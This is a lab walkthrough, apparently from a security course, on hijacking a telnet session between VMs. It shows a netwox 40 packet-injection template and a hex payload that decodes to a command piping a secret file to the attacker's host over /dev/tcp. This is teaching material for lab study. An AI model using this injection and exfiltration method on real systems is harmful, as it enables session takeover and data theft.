## TCP Session Hijacking Attack

### Requirements 

In this lab, we will hijack a telnet session (between the victim client and the victim server) and inject a malicious command.

### Setup

3 Linux VMs. VM1 as the victim (telnet client); VM2 as the telnet server; VM3 as the attacker. The 3 VMs reside in the same network.

### Steps

1. let the client connect to the server using telnet.



2. the client creates a secret file on the server.



3. let the attacker start monitoring network traffic using wireshark.



4. client produces some telnet packets. (any telnet packets, you can just type a command like *ls*).



5. attacker stops wireshark capturing, and navigates to the latest packet sent from the client to the server.





6. the above packet provides the information which the attacker needs to know in order to perform the tcp session hijacking attack. now, the attacker, mimicking the **client**, needs to use the *netwox 40* command to inject a telnet command. The command should be in this format: # sudo netwox 40 --ip4-src *source_ip* --ip4-dst *destination_ip* --tcp-src *source_port* --tcp-dst *destination_port* --tcp-seqnum *sequence_number* --ip4-ttl *ttl_value* --tcp-window *window_size* --tcp-ack --tcp-acknum *acknowledgment_number* --tcp-data "putyourdatahere,in hex format". Remember to replace these italic texts with information captured in wireshark. To run the command, the attacker opens a terminal window, types the *netwox 40* command, and press enter.

**Note**: because the attacker is mimicking the client, thus the source ip address needs to be the client's IP address; from the captured latest packet, we can see the sequence number is *2523450797*, the acknowledgment number is *311613137*; the source port (in this example) is 57502, the destination port is 23. the tcp window size (in this example) is 245, the time to live (ttl) value is 64. The tcp data we can use is: 0d20636174202f686f6d652f736565642f736563726574203e202f6465762f7463702f61747461636b65725f69702f39303930200d.

**Explanation**: why the tcp data is "0d20636174202f686f6d652f736565642f736563726574203e202f6465762f7463702f61747461636b65725f69702f39303930200d"? Because the telnet command we want to inject is: "cat /home/seed/secret > /dev/tcp/attacker_ip/9090", and we want this command to be sandwiched by two newline signs "\r", so that the command will not be concatenated with other random strings. assume the atacker's IP address is 172.16.77.130, then this is how we can convert this whole thing into hex:



Thus in this example, the netwox 40 command we are going to type is:


7. before pressing enter, the attacker needs to open another terminal window so that the attacker can listen on a port - we will choose port 9090.



- after pressing enter:


7. once the attacker pressed enter to execute the above *netwox 40* command, if the attack is successful, the victim server's secret file will be displayed in the attacker's terminal window:



This indicates that the attack is successful and concludes the lab.
